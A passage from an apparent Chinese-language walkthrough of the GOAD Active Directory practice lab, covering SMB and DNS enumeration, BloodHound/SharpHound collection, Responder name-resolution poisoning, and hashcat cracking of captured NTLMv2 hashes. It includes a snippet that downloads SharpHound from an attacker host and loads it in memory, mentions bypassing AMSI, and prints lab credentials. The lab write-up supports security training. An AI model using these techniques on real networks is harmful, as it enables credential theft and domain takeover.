SMB         192.168.56.10   445    KINGSLANDING     [+] Enumerated shares
SMB         192.168.56.12   445    MEEREEN          C$                              Default share
SMB         192.168.56.10   445    KINGSLANDING     Share           Permissions     Remark
SMB         192.168.56.12   445    MEEREEN          IPC$                            Remote IPC
SMB         192.168.56.10   445    KINGSLANDING     -----           -----------     ------
SMB         192.168.56.10   445    KINGSLANDING     ADMIN$                          Remote Admin
SMB         192.168.56.10   445    KINGSLANDING     C$                              Default share
SMB         192.168.56.12   445    MEEREEN          NETLOGON        READ            Logon server share
SMB         192.168.56.10   445    KINGSLANDING     CertEnroll      READ            Active Directory Certificate Services share
SMB         192.168.56.12   445    MEEREEN          SYSVOL          READ            Logon server share
SMB         192.168.56.10   445    KINGSLANDING     IPC$            READ            Remote IPC
SMB         192.168.56.10   445    KINGSLANDING     NETLOGON        READ            Logon server share
SMB         192.168.56.10   445    KINGSLANDING     SYSVOL          READ            Logon server share
```

### DNS 转储

[Active Directory 集成 DNS 转储工具](https://github.com/dirkjanm/adidnsdump)
> 默认情况下，Active Directory 中的任何用户都可以枚举域或林 DNS 区域中的所有 DNS 记录，类似于区域传输,此工具启用区域中所有 DNS 记录的枚举和导出，用于内部网络的侦察目的

```bash
adidnsdump -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' winterfell.north.sevenkingdoms.local
```

```bash
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 5 records
```

```bash
cat records.csv
```

```bash
type,name,value
A,winterfell,192.168.56.11
A,DomainDnsZones,192.168.56.11
?,castelblack,?
NS,@,winterfell.north.sevenkingdoms.local.
A,@,192.168.56.11
```

### Bloodhound

- Boodhound 是活动目录渗透测试的最佳工具之一,此工具将帮助您找到破解 AD 的所有路径，是您武器库中的必备工具！
- 要启动 bloodhound，您首先需要从不同的域中检索所有数据

Linux环境,直接用python脚本:

<https://github.com/fox-it/BloodHound.py>

Windows环境,可以用:

<https://github.com/BloodHoundAD/SharpHound>

RustHound支持ADCS收集:

<https://github.com/OPENCYBER-FR/RustHound>

#### bloodhound-python

```bash
bloodhound-python --zip -c All -d north.sevenkingdoms.local -u brandon.stark -p iseedeadpeople -dc winterfell.north.sevenkingdoms.local -ns 192.168.56.11
```

```bash
INFO: Found AD domain: north.sevenkingdoms.local
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
INFO: Connecting to LDAP server: winterfell.north.sevenkingdoms.local
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: winterfell.north.sevenkingdoms.local
INFO: Connecting to GC LDAP server: winterfell.north.sevenkingdoms.local
INFO: Found 17 users
INFO: Found 51 groups
INFO: Found 4 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: castelblack.north.sevenkingdoms.local
INFO: Querying computer: winterfell.north.sevenkingdoms.local
INFO: Done in 00M 02S
INFO: Compressing output into 20230611003939_bloodhound.zip
```

```bash
bloodhound-python --zip -c All -d sevenkingdoms.local -u brandon.stark@north.sevenkingdoms.local -p iseedeadpeople -dc kingslanding.sevenkingdoms.local -ns 192.168.56.11
```

```bash
INFO: Found AD domain: sevenkingdoms.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: kingslanding.sevenkingdoms.local
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: kingslanding.sevenkingdoms.local
INFO: Found 16 users
INFO: Found 59 groups
INFO: Found 3 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: kingslanding.sevenkingdoms.local
INFO: Done in 00M 02S
INFO: Compressing output into 20230611004030_bloodhound.zip
```

```bash
bloodhound-python --zip -c All -d essos.local -u brandon.stark@north.sevenkingdoms.local -p iseedeadpeople -dc meereen.essos.local -ns 192.168.56.12 --auth-method ntlm
```

```bash
INFO: Found AD domain: essos.local
INFO: Connecting to LDAP server: meereen.essos.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: meereen.essos.local
INFO: Found 11 users
INFO: Found 57 groups
INFO: Found 3 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: braavos.essos.local
INFO: Querying computer: meereen.essos.local
INFO: Done in 00M 02S
INFO: Compressing output into 20230611012109_bloodhound.zip
```

不添加-ns参数,dns解析不到我们在/etc/hosts设定的ip地址

- -ns 名称服务器,--nameserver 名称服务,用于查询的备用名称服务器

使用Kerberos协议,报错:

```bash
INFO: Found AD domain: essos.local
INFO: Getting TGT for user
Traceback (most recent call last):
  File "/home/joker/.local/bin//bloodhound-python", line 8, in <module>
    sys.exit(main())
             ^^^^^^
  File "/home/joker/.local/lib/python3.11/site-packages/bloodhound/__init__.py", line 332, in main
    auth.get_tgt()
  File "/home/joker/.local/lib/python3.11/site-packages/bloodhound/ad/authentication.py", line 214, in get_tgt
    tgs, cipher, _, sessionkey = getKerberosTGS(servername, self.domain, self.kdc,
                                 ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/krb5/kerberosv5.py", line 438, in getKerberosTGS
    r = sendReceive(message, domain, kdcHost)
        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/krb5/kerberosv5.py", line 91, in sendReceive
    raise krbError
impacket.krb5.kerberosv5.KerberosError: Kerberos SessionError: KRB_AP_ERR_BAD_INTEGRITY(Integrity check on decrypted field failed)
```

所以添加参数--auth-method ntml

- --auth-method {auto,ntlm,kerberos} 身份验证方法。强制使用Kerberos或NTLM，或者使用自动模式，在Kerberos失败时使用NTLM

#### BloodHound使用

显示所有的域和主机

```sql
MATCH p = (d:Domain)-[r:Contains*1..]->(n:Computer) RETURN p
```



显示所有用户

```sql
MATCH p = (d:Domain)-[r:Contains*1..]->(n:User) RETURN p
```



domain/group/user之间的映射

```sql
MATCH q=(d:Domain)-[r:Contains*1..]->(n:Group)<-[s:MemberOf]-(u:User) RETURN q
```



用户ACL

```sql
MATCH p=(u:User)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' RETURN p
```



更多参考:

[BloodHound Cypher Cheatsheet](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

[BloodHound](https://en.hackndo.com/bloodhound/)

#### SharpHound

截止到目前获取的用户都不是管理员或Remote Management Users组成员，所以无法通过evil-winrm远程登录运行SharpHound.exe

由于开启了RDP协议，也可以通过RDP进行远程桌面登陆，下图是所有可以登陆north域用户



```bash
xfreerdp /u:hodor /p:hodor /d:north /v:192.168.56.22 /cert-ignore
```

但靶场设计者却提供了如下指令，jon.snow是域用户并且是mssql_admin

```bash
xfreerdp /u:jon.snow /p:iknownothing /d:north /v:192.168.56.22 /cert-ignore
```

- C:\vagrant 文件夹会自动安装在虚拟机上，这将简化文件传输
- 我们将启动 Sharphound 来检索域名信息

```powershell
.\SharpHound.exe -d north.sevenkingdoms.local -c all --zipfilename bh_north_sevenkingdoms.zip
.\SharpHound.exe -d sevenkingdoms.local -c all --zipfilename bh_sevenkingdoms.zip
.\SharpHound.exe -d essos.local -c all --zipfilename bh_essos.zip
```

```powershell
PS C:\Users\jon.snow\Desktop> wget http://192.168.56.106:7777/SharpHound.exe -O SharpHound.exe
PS C:\Users\jon.snow\Desktop> .\sharphound.exe -d north.sevenkingdoms.local -c all --zipfilename bh_north_sevenkingdoms.zip
2023-08-02T06:58:25.1829292-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-08-02T06:58:25.3011496-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-08-02T06:58:25.3184132-07:00|INFORMATION|Initializing SharpHound at 6:58 AM on 8/2/2023
2023-08-02T06:58:25.4042214-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for north.sevenkingdoms.local : winterfell.north.sevenkingdoms.local
2023-08-02T06:58:25.4215476-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-08-02T06:58:25.5327125-07:00|INFORMATION|Beginning LDAP search for north.sevenkingdoms.local
2023-08-02T06:58:25.5593607-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-08-02T06:58:25.5593607-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-08-02T06:59:02.3941009-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2023-08-02T06:59:18.4692446-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for sevenkingdoms.local : kingslanding.sevenkingdoms.local
2023-08-02T06:59:18.4863873-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for sevenkingdoms.local : kingslanding.sevenkingdoms.local
2023-08-02T06:59:18.6563115-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for sevenkingdoms.local : kingslanding.sevenkingdoms.local
2023-08-02T06:59:19.0368159-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for sevenkingdoms.local : kingslanding.sevenkingdoms.local
2023-08-02T06:59:36.1701111-07:00|INFORMATION|Status: 89 objects finished (+89 1.483333)/s -- Using 50 MB RAM
2023-08-02T07:00:12.5841614-07:00|INFORMATION|Status: 89 objects finished (+89 0.978022)/s -- Using 48 MB RAM
2023-08-02T07:00:51.6253747-07:00|INFORMATION|Status: 89 objects finished (+89 0.7295082)/s -- Using 48 MB RAM
2023-08-02T07:01:34.3707568-07:00|INFORMATION|Status: 89 objects finished (+89 0.5816994)/s -- Using 48 MB RAM
2023-08-02T07:02:02.2289574-07:00|INFORMATION|Status: 89 objects finished (+89 0.4836957)/s -- Using 48 MB RAM
2023-08-02T07:02:13.6985882-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2023-08-02T07:02:13.7115517-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2023-08-02T07:02:13.7529711-07:00|INFORMATION|Status: 107 objects finished (+18 0.5376884)/s -- Using 47 MB RAM
2023-08-02T07:02:13.7529711-07:00|INFORMATION|Enumeration finished in 00:03:19.1495036
2023-08-02T07:02:13.7833948-07:00|INFORMATION|Saving cache with stats: 71 ID to type mappings.
 78 name to SID mappings.
 1 machine sid mappings.
 5 sid to domain mappings.
 0 global catalog mappings.
2023-08-02T07:02:13.7989696-07:00|INFORMATION|SharpHound Enumeration Completed at 7:02 AM on 8/2/2023! Happy Graphing!
PS C:\Users\jon.snow\Desktop> .\sharphound.exe -d sevenkingdoms.local -c all --zipfilename bh_sevenkingdoms.zip
2023-08-02T07:02:30.1667879-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-08-02T07:02:30.2641272-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-08-02T07:02:30.2775069-07:00|INFORMATION|Initializing SharpHound at 7:02 AM on 8/2/2023
2023-08-02T07:02:30.3379803-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for sevenkingdoms.local : kingslanding.sevenkingdoms.local
2023-08-02T07:02:30.5915853-07:00|INFORMATION|Loaded cache with stats: 71 ID to type mappings.
 78 name to SID mappings.
 1 machine sid mappings.
 5 sid to domain mappings.
 0 global catalog mappings.
2023-08-02T07:02:30.5915853-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-08-02T07:02:30.7444146-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for north.sevenkingdoms.local : winterfell.north.sevenkingdoms.local
2023-08-02T07:02:30.8073203-07:00|INFORMATION|Beginning LDAP search for sevenkingdoms.local
2023-08-02T07:02:30.8379644-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-08-02T07:02:30.8379644-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-08-02T07:03:07.5507123-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 40 MB RAM
2023-08-02T07:03:23.7421235-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2023-08-02T07:03:36.3583297-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2023-08-02T07:03:36.4030055-07:00|INFORMATION|Status: 118 objects finished (+12 2.107143)/s -- Using 49 MB RAM
2023-08-02T07:03:36.4030055-07:00|INFORMATION|Enumeration finished in 00:00:56.5806468
2023-08-02T07:03:36.4650025-07:00|INFORMATION|Saving cache with stats: 148 ID to type mappings.
 156 name to SID mappings.
 1 machine sid mappings.
 5 sid to domain mappings.
 0 global catalog mappings.
2023-08-02T07:03:36.4650025-07:00|INFORMATION|SharpHound Enumeration Completed at 7:03 AM on 8/2/2023! Happy Graphing!
PS C:\Users\jon.snow\Desktop> .\sharphound.exe -d essos.local -c all --zipfilename bh_essos.zip
2023-08-02T07:03:56.0347690-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-08-02T07:03:56.1132268-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-08-02T07:03:56.1225924-07:00|INFORMATION|Initializing SharpHound at 7:03 AM on 8/2/2023
2023-08-02T07:03:56.4014976-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for essos.local : meereen.essos.local
2023-08-02T07:03:56.5260333-07:00|INFORMATION|Loaded cache with stats: 148 ID to type mappings.
 156 name to SID mappings.
 1 machine sid mappings.
 5 sid to domain mappings.
 0 global catalog mappings.
2023-08-02T07:03:56.5274883-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-08-02T07:03:56.5655748-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for north.sevenkingdoms.local : winterfell.north.sevenkingdoms.local
2023-08-02T07:03:56.6160751-07:00|INFORMATION|Beginning LDAP search for essos.local
2023-08-02T07:03:56.6292038-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-08-02T07:03:56.6292038-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-08-02T07:04:25.1777694-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 41 MB RAM
2023-08-02T07:04:39.2587271-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2023-08-02T07:04:39.2745592-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2023-08-02T07:04:39.3213319-07:00|INFORMATION|Status: 106 objects finished (+106 2.465116)/s -- Using 50 MB RAM
2023-08-02T07:04:39.3213319-07:00|INFORMATION|Enumeration finished in 00:00:43.4800185
2023-08-02T07:04:39.3685494-07:00|INFORMATION|Saving cache with stats: 212 ID to type mappings.
 225 name to SID mappings.
 1 machine sid mappings.
 7 sid to domain mappings.
 0 global catalog mappings.
2023-08-02T07:04:39.3685494-07:00|INFORMATION|SharpHound Enumeration Completed at 7:04 AM on 8/2/2023! Happy Graphing!
```
如果想在内存中加载，可以使用powershell反射（如果您在启用 Defender 的情况下执行此操作，您将首先必须绕过 amsi）

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1/SharpHound.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())
```

#### AutoBloody[待补充]

#### RustHound

收集ADCS

```bash
rusthound -d north.sevenkingdoms.local -u 'brandon.stark' -p 'iseedeadpeople' -o ./north.sevenkingdoms.local --adcs -z
```

```bash
bloodhound-python --zip -c All -d north.sevenkingdoms.local -u brandon.stark -p iseedeadpeople -dc winterfell.north.sevenkingdoms.local -ns 192.168.56.11
```

## 六、名称解析投毒与 NTLM 中继

### Responder

可以使用[Responder](https://github.com/lgandx/Responder)获得如下信息:

- 用户名
- netntlmv1哈希(如果服务器很旧)/netntlmv2哈希
- 重定向身份验证的能力(NTLM 中继)
- .....

在实验室中，有两个bots来模拟 LLMRN、MDNS 和 NBT-NS 请求，一名用户的密码较弱，但没有管理员权限，另一个用户拥有管理员权限，但使用强密码

启动Responder

```bash
sudo responder -I eth1
```

```bash
[*] [NBT-NS] Poisoned answer sent to 192.168.56.11 for name MEREN (service: File Server)
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[SMB] NTLMv2-SSP Client   : fe80::95bf:b9ba:b521:19b9
[SMB] NTLMv2-SSP Username : NORTH\eddard.stark
[SMB] NTLMv2-SSP Hash     : eddard.stark::NORTH:902277346de724b8:73E92F21794E831AC88EA7EB72488719:01010000000000000083AE7601B2D9017B71C0D28CE1089E0000000002000800580045004200360001001E00570049004E002D003600320056005700450045005100450059004200550004003400570049004E002D00360032005600570045004500510045005900420055002E0058004500420036002E004C004F00430041004C000300140058004500420036002E004C004F00430041004C000500140058004500420036002E004C004F00430041004C00070008000083AE7601B2D901060004000200000008003000300000000000000000000000003000000A49D6368B08D1DC46EF5B3229E5336013E07F16707B08028CB7288A71959D880A001000000000000000000000000000000000000900140063006900660073002F004D006500720065006E000000000000000000
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] Skipping previously captured hash for NORTH\eddard.stark
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] Skipping previously captured hash for NORTH\eddard.stark
[*] [NBT-NS] Poisoned answer sent to 192.168.56.11 for name BRAVOS (service: File Server)
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Bravos.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Bravos
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Bravos
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Bravos.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Bravos
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Bravos.local
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Bravos.local
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Bravos
[SMB] NTLMv2-SSP Client   : fe80::95bf:b9ba:b521:19b9
[SMB] NTLMv2-SSP Username : NORTH\robb.stark
[SMB] NTLMv2-SSP Hash     : robb.stark::NORTH:f8ca94abf87f34dd:6630B0A3FF693B689B40402EA0EEF3B1:01010000000000000083AE7601B2D901FEB19EA948E074840000000002000800580045004200360001001E00570049004E002D003600320056005700450045005100450059004200550004003400570049004E002D00360032005600570045004500510045005900420055002E0058004500420036002E004C004F00430041004C000300140058004500420036002E004C004F00430041004C000500140058004500420036002E004C004F00430041004C00070008000083AE7601B2D901060004000200000008003000300000000000000000000000003000000A49D6368B08D1DC46EF5B3229E5336013E07F16707B08028CB7288A71959D880A001000000000000000000000000000000000000900160063006900660073002F0042007200610076006F0073000000000000000000

```

```bash
hashcat -m 5600 --force -a 0 responder.hashes rockyou.txt
```

```bash
ROBB.STARK::NORTH:f8ca94abf87f34dd:6630b0a3ff693b689b40402ea0eef3b1:01010000000000000083ae7601b2d901feb19ea948e074840000000002000800580045004200360001001e00570049004e002d003600320056005700450045005100450059004200550004003400570049004e002d00360032005600570045004500510045005900420055002e0058004500420036002e004c004f00430041004c000300140058004500420036002e004c004f00430041004c000500140058004500420036002e004c004f00430041004c00070008000083ae7601b2d901060004000200000008003000300000000000000000000000003000000a49d6368b08d1dc46ef5b3229e5336013e07f16707b08028cb7288a71959d880a001000000000000000000000000000000000000900160063006900660073002f0042007200610076006f0073000000000000000000:sexywolfy
```

得到了另一个账户密码 robb.stark:sexywolfy

这足以攻占NORTH.SEVENKINGDOMS.LOCAL，因为robb.stark是NORTH.SEVENKINGDOMS.LOCAL的ADMINISTRATORS组成员

